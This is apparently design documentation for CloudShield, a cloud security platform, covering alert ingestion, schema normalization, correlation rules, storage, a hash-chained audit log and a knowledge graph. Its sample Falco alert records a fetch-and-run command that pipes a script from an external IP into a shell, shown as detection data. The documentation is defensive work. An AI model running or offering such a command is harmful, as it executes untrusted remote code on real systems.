



# Ingestion, data model and knowledge graph

How alerts become normalized, deduplicated, correlated evidence. Part of the [CloudShield documentation](../README.md#documentation).

Status markers: ✅ built and tested · 🧩 written as code, not deployed · 📐 designed only.

## Ingestion, schemas and storage

### Ingestion pipeline

The Python/FastAPI core accepts selected AWS, Falco and Wazuh findings through authenticated interfaces, rejects malformed, oversized or unauthorized payloads, maps them to a documented common model and always keeps the untouched raw artifact.



**Ingestion contract** ([`services/ingestion/pipeline.py`](../services/ingestion/pipeline.py)):

```python
def ingest(self, raw: bytes, adapter: SourceAdapter) -> IngestResult:
    payload = adapter.parse(raw)  # size limit, JSON object, required fields
    key = dedup_key(adapter.name, adapter.source_event_id(payload))
    if self.events.exists(key):
        return IngestResult("duplicate", key)

    now = self.clock()
    uri, checksum = self.evidence.archive(adapter.name, raw, now)  # S3: SSE-KMS, versioned, Object Lock
    event = adapter.to_event(payload, event_id=new_id("evt"), ingest_time=now, raw_uri=uri, checksum=checksum)
    try:
        self.events.insert(event, key)  # unique constraint is the second line of defense
    except DuplicateEventError:
        return IngestResult("duplicate", key)
    if self.on_accepted:
        self.on_accepted(event)  # correlation
    return IngestResult("accepted", key, event.event_id)
```

Producers authenticate before this runs ([`services/ingestion/auth.py`](../services/ingestion/auth.py)), and an unconfigured source is always rejected.

### Reliability guarantees

- **Idempotent ingestion.** Redelivered events never create duplicate cases (dedup key plus a database unique constraint).
- **Bounded retries and a dead-letter path.** Nothing is silently dropped.
- **Event time, not arrival time.** Timelines are built on `event_time`, which protects against out-of-order delivery and clock skew.
- **Lineage.** Every derived claim points to supporting event IDs; raw evidence is never overwritten.
- **Coverage health.** Each source sends a heartbeat. A silent sensor is shown as **degraded coverage**, never as a quiet, safe environment.

### Example: a Falco detection rule

```yaml
- rule: Unexpected Process in Protected Workload
  desc: A process outside the expected allowlist started in a CloudShield-protected app container
  condition: >
    spawned_process and container
    and k8s.ns.name = "shop"
    and not proc.name in (node, npm)
  output: >
    Unexpected process in protected workload (proc=%proc.name cmdline=%proc.cmdline
    user=%user.name pod=%k8s.pod.name ns=%k8s.ns.name image=%container.image.repository)
  priority: WARNING
  tags: [cloudshield, mitre_execution, T1059]
```

### Raw source event → normalized event

<details>
<summary><b>Raw Falco alert (as received from Falcosidekick)</b></summary>

```json
{
  "uuid": "6f1c2a9e-4b7d-4d1e-9a51-2c0e7f3b8a10",
  "time": "2026-10-28T14:02:40.512Z",
  "rule": "Unexpected Process in Protected Workload",
  "priority": "Warning",
  "source": "syscall",
  "hostname": "ip-10-20-3-41.eu-west-1.compute.internal",
  "output": "Unexpected process in protected workload (proc=sh cmdline=sh -c curl -s http://198.51.100.23/x.sh | sh ...)",
  "output_fields": {
    "proc.name": "sh",
    "proc.cmdline": "sh -c curl -s http://198.51.100.23/x.sh | sh",
    "user.name": "node",
    "k8s.ns.name": "shop",
    "k8s.pod.name": "checkout-7d9f6c-x2k8p",
    "container.id": "3b0f9a1c2d4e",
    "container.image.repository": "123456789012.dkr.ecr.eu-west-1.amazonaws.com/shop/checkout"
  },
  "tags": ["cloudshield", "mitre_execution", "T1059"]
}
```

</details>

**Normalized CloudShield event (OCSF-aligned, with the original preserved by reference):**

```json
{
  "event_id": "evt_01JD8Q3KX7R4M2",
  "source": "falco",
  "source_event_id": "6f1c2a9e-4b7d-4d1e-9a51-2c0e7f3b8a10",
  "schema_version": "cloudshield-ocsf-subset/1.0 (OCSF 1.3.0)",
  "event_time": "2026-10-28T14:02:40.512Z",
  "ingest_time": "2026-10-28T14:02:41.087Z",
  "account_id": "123456789012",
  "cluster": "cs-lab-eks",
  "namespace": "shop",
  "resource_id": "k8s:pod/shop/checkout-7d9f6c-x2k8p",
  "identity_id": "k8s:sa/shop/checkout",
  "event_type": "process.unexpected_execution",
  "severity": { "normalized": "medium", "original": "Warning" },
  "raw_evidence_uri": "s3://cs-evidence-lab/raw/falco/2026/10/28/6f1c2a9e.json",
  "checksum": "sha256:9a7c…e41b",
  "confidence": null,
  "rationale": null,
  "ocsf": {
    "class_uid": 2004,
    "class_name": "Detection Finding",
    "category_uid": 2,
    "severity_id": 3,
    "time": 1793196160512,
    "finding_info": { "uid": "6f1c2a9e-4b7d-4d1e-9a51-2c0e7f3b8a10", "title": "Unexpected Process in Protected Workload" },
    "attacks": [{ "tactic": { "uid": "TA0002", "name": "Execution" }, "technique": { "uid": "T1059", "name": "Command and Scripting Interpreter" } }],
    "metadata": { "version": "1.3.0", "product": { "name": "Falco", "vendor_name": "Falco Project" } }
  }
}
```

### Minimum event record

| Field | Meaning |
|---|---|
| `event_id` / `source_event_id` | Internal stable ID and the provider's original ID, for traceability |
| `event_time` / `ingest_time` | When the activity happened and when CloudShield received it |
| `source` / `schema_version` | GuardDuty, Falco, Wazuh, …; the mapping version applied |
| `account_id` / `cluster` / `namespace` | Resource scope (nullable when not applicable) |
| `resource_id` / `identity_id` | Subject or associated entity (may stay unresolved) |
| `event_type` / `severity` | Normalized category, plus the provider's original severity |
| `raw_evidence_uri` / `checksum` | Pointer to the original record, plus integrity metadata |
| `confidence` / `rationale` | Confidence in a *correlation*, never a fabricated attack certainty |

### Correlation rules

Correlation starts **deterministic, transparent and testable**. Machine-learning grouping is only explored once these rules are reliable.

| Rule | Groups events that share… | Time window | Notes |
|---|---|---|---|
| `C-01` | The same pod UID | 15 min | Survives pod-name reuse |
| `C-02` | The same EC2 instance ID (host alert, or the node running the pod) | 30 min | Links host and container evidence |
| `C-03` | The same IAM principal (including the role behind a Pod Identity association) | 60 min | Links cloud API activity to workloads |
| `C-04` | **Never** merge across accounts, or across two different clusters | — | Hard boundary. Account-level findings (no cluster, e.g. an IAM finding) may join a cluster's case in the same account; the case then belongs to that cluster |

Each link stores the rule that fired, its confidence and a human-readable rationale. Ambiguous identities stay **unresolved** instead of being guessed.

### Storage

| Store | Purpose | Design note | Status |
|---|---|---|---|
| **OCSF** | Common event semantics across tools | A documented subset; source-specific fields kept [[R8]](references.md#references) | ✅ |
| **PostgreSQL** | Events, incidents, case links, entity graph, approvals, proposals, audit log | The transactional source of truth. Versioned migrations ([`services/cases/migrations`](../services/cases/migrations)) are applied on startup; the same contract tests run against PostgreSQL and the in-memory stores | ✅ |
| **OpenSearch** | Event search, enrichment queries, runbook retrieval | Selected fields only; no indiscriminate indexing [[R9]](references.md#references) | 📐 |
| **S3** | Raw payload archive, evidence files, report exports | SSE-KMS, versioning, Object Lock, lifecycle retention | ✅ store · 🧩 bucket |
| **OpenTelemetry** | Metrics, traces and logs from CloudShield's own services | Operates the platform; it is not a threat detector | 📐 |

---

## Data model



The audit log is **append-only and hash-chained**: each record stores the hash of the previous one, so any tampering breaks the chain and shows up during verification.

```json
{
  "seq": 4182,
  "ts": "2026-10-28T14:07:12.004Z",
  "actor_type": "human",
  "actor_id": "analyst:a.nasri",
  "action": "proposal.approved",
  "details": {
    "case_id": "CASE-0142",
    "proposal_id": "prp_01JD8QB9ZK",
    "bound_hash": "sha256:51d0…7c2a",
    "justification": "Confirmed curl|sh from external IP; checkout has a degraded-mode fallback."
  },
  "prev_hash": "sha256:0e3b…91f4",
  "hash": "sha256:c88a…2d17"
}
```

---

## Security knowledge graph

CloudShield models how incidents relate to resources, identities and access paths. It shows *potentially relevant* identities and dependencies; it never claims exploitability without evidence.



**Accuracy rule.** Every relationship carries an assurance level, and these levels are never collapsed into a single "attacker can reach X" claim:

| Assurance level | Meaning | Example |
|---|---|---|
| **Configured** | The configuration allows it | The service account is mapped to an IAM role with `s3:GetObject` |
| **Observed** | Telemetry shows it happened in a time range | Flow logs show the pod connected to 198.51.100.23:80 at 14:02 |
| **Possible** | Plausible given configuration, but not observed | The pod *could* read the bucket via its role |
| **Proven** | Evidence confirms an attacker used it | CloudTrail shows `GetObject` by the role's session from the compromised pod |

The graph lives in **PostgreSQL** tables (entities plus typed edges). A dedicated graph database is only justified once real queries need it.
